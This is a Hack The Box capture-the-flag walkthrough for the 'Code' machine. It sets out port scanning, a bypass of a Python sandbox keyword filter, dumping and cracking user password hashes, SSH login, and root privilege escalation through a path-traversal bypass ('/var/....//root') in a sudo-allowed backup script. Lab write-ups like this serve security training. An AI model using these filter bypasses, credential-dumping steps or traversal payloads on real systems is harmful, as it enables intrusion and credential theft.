 # CODE – HTB Walkthrough

## 🧭 Enumeration
We begin by scanning the open ports on the host:

```bash
nmap -sS -p- 10.10.11.62 -T5
```

Output:
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

Port 5000 running a UPnP service catches my attention.

### 🧠 Quick Research on UPnP
> **UPnP (Universal Plug and Play)** allows devices on a network to discover each other and establish communication.  
> It can create direct communication channels with the internet, but it’s potentially risky on public networks.

## 🔍 Port 5000 – Service Detection
```bash
nmap -sV -p 5000 10.10.11.62 -T5
```

Output:
```bash
5000/tcp open  http Gunicorn 20.0.4
```

Gunicorn is a Python WSGI HTTP server, often used to serve Flask apps.  
Browsing the site reveals a sandboxed Python code execution area with login/registration.

## 🧪 Sandbox Testing
```python
print("os.listdir()")
```
→ `Use of restricted keywords is not allowed.`

```python
print("o" + "s")
```
→ `os` is printed. There's a denylist filter.

## 🔍 Exploring Globals
Using `sys.modules`, I discover SQLAlchemy models, Flask routes, and a reference to the `User` and `Code` classes.

## 🧑‍💻 Dumping Users from DB
```python
for user in User.query.all():
    print(user.__dict__)
```

Output:
```json
{'username': 'development', 'password': '759b74ce43947f5f4c91aeddc3e5bad3'}
{'username': 'martin', 'password': '3de6f30c4a09c27fc71932bfc68474be'}
```

Hash cracking with `john`:
```bash
john --show --format=Raw-MD5 hashes.txt
```

Result:
```
development:?
martin:nafeelswordsmaster
```

## 🔐 SSH Access as martin
SSH into the box using `martin`’s credentials. Access to `/home/app-production` is restricted.

## 📦 Discovering `backy.sh`
```bash
sudo -l
```

Output:
```
(ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

`backy.sh` is a wrapper for the binary `backy`, which compresses directories into `.tar.bz2` archives defined via a `task.json`.

## 📁 Reading `/home/app-production`
Using this `task.json`:
```json
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": false,
  "directories_to_archive": [
    "/home/app-production/app"
  ],
  "exclude": []
}
```

Execute:
```bash
sudo /usr/bin/backy.sh task.json
```

Then:
```bash
tar -xf code_home_app-production_*.tar.bz2
cat home/app-production/user.txt
```

→ User flag obtained ✅

## 🧨 PrivEsc via Path Traversal
`backy.sh` filters `../` using `jq`:

```bash
map(gsub("\.\./"; ""))
```

But using `/var/....//root` bypasses the filter → becomes `/var/../root`.

```json
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": false,
  "directories_to_archive": [
    "/var/....//root"
  ],
  "exclude": []
}
```

Then:
```bash
sudo /usr/bin/backy.sh task.json
tar -xf code_var_.._root_*.tar.bz2
cat root/root.txt
```

→ Root flag obtained ✅

## 🏁 Summary

| Step      | Description                                  |
|-----------|----------------------------------------------|
| nmap      | Enumerate ports                              |
| Sandbox   | Web Python execution with filters            |
| DB access | Dump + crack hashes                          |
| SSH       | Login as `martin`                            |
| PrivEsc   | Abuse `backy.sh` and bypass path filter      |
| Root      | Read `/root/root.txt` from archive           |

🎉 Rooted!
